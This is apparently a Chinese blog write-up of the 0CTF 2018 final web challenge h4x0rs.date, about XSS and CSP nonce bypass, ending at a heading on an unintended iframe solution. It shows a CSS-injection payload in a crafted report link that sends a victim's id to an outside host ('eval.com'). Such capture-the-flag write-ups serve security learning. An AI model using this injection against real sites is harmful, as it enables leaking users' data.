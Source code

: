 ```yaml
---
title: 2018 0CTF final h4x0rs.date
comments: true
date: 2018-06-03 17:26:42
tags:
	- xss
	- nonce绕过
	- 0ctf
	- csp
categories:
	- 信息安全
	- writeup
keywords:
	- xss
	- nonce绕过
	- 0ctf
	- csp
---
```




当时比赛时，差一点就解出来了。结束前半小时，才发觉获取nonce的漏洞点。

还是太菜了，否则能一跃第四。

这题其实挺有意思的， 赛后仔细想想，好像也不是太难。但是题目真心不错。

最后证实，这题有多种解法，但每一种解法，都感觉学到了很多。

题目链接：https://h4x0rs.date/



由于这篇题解自己拖得时间有点长了，所以刚刚发现 lorexxar大佬的题解写的很棒了，大家可以看一下，我就不过多介绍题目了。而且我尽量写一些与他不同的。

https://www.lorexxar.cn/2018/05/31/0ctf2018-final/#h4x0rs-data



## 获取ID

我们是通过一个比较简单的方式获取到的id。题目中存在一个id为msg标签可写内容。此时我们将自己资料改为

```html
<style id=msg></style>
```

然后构造链接report即可

```html
http://h4x0rs.date/login.php?redict=profile.php?id={you_id}%26msg=body{background-img:url('//eval.com?id=
```



## 【非预期】通过iframe控制csp

